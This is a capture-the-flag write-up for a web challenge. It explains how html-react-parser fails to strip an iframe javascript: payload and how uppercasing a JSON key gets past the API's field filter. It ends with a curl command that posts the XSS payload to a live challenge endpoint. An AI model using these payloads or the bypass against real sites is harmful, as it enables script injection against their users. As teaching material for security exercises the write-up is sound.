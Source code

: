 # Modern Web CTF Solution

## Solution

The main thing to realise is that it might seem like `html-react-parser` is used
to sanitise the HTML from the API, but it actually doesn't, at least not fully.
So `<script>alert(1)</script>` and `<img src=404 onerror=alert(1)/>` won't work,
but `<iframe src=javascript:alert(1)></iframe>` will.

TODO: Find other XSS payloads that work and figure out why this one does
https://github.com/remarkablemark/html-react-parser/blob/v0.6.2/lib/dom-to-react.js#L55-L62

If you include a value for `email_signature` in a POST to the API, the API
removes it. But the API "normalises" the input data by converting the keys to
lowercase, so you can bypass that by using `EMAIL_SIGNATURE` as the key instead.

```sh
curl 'https://1ucl257rci.execute-api.ap-southeast-2.amazonaws.com/dev/ctf' \
  -H 'content-type: application/json' \
  --data '{"job_title":"solution","phone_number":"13","EMAIL_SIGNATURE":"<iframe src=javascript:alert(1)></iframe>"}'
```
